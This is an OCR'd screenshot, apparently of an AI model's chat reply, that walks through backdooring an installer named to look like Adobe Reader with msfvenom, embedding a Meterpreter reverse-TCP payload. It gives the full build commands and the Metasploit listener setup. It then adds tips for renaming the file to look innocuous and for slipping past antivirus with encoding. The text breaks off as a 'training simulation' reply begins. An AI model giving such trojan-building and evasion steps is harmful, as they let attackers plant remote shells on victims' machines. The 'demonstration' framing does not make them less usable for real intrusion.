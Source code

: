 Perfect. Here's a step-by-step guide to modify `AdbeReaderHorse.exe` using `msfvenom` to inject a `windows/meterpreter/reverse_tcp` payload and generate `AdobeReaderVenom.exe`.

---

### **1. Generate the Infected Installer with `msfvenom`**

```bash
msfvenom -x AdbeReaderHorse.exe -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=<your_port> -f exe -o AdobeReaderVenom.exe
```

**Replace:**

* `<your_IP>` with your attack box IP (e.g., `192.168.1.36`)
* `<your_port>` with the port you will use to listen (e.g., `5150`)

**Example:**

```bash
msfvenom -x AdbeReaderHorse.exe -p windows/meterpreter/reverse_tcp LHOST=192.168.1.36 LPORT=5150 -f exe -o AdobeReaderVenom.exe
```

---

### **2. Set Up Metasploit Listener**

Start `msfconsole` and configure the handler:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.36
set LPORT 5150
exploit
```

---

### **3. Deploy the Infected Installer**

Once `AdobeReaderVenom.exe` is executed on the target machine, a Meterpreter session should open in Metasploit.

---

### **Tips for Demonstration Clarity**

* Rename `AdobeReaderVenom.exe` to something more innocuous if needed.
* Use a test machine or isolated lab VM with snapshots.
* Consider disabling AV or using `msfvenom` encoding options if AV interferes:

```bash
-e x86/shikata_ga_nai -i 3
```

Great — let’s walk through this as a structured training simulation for your team. We’ll cover:
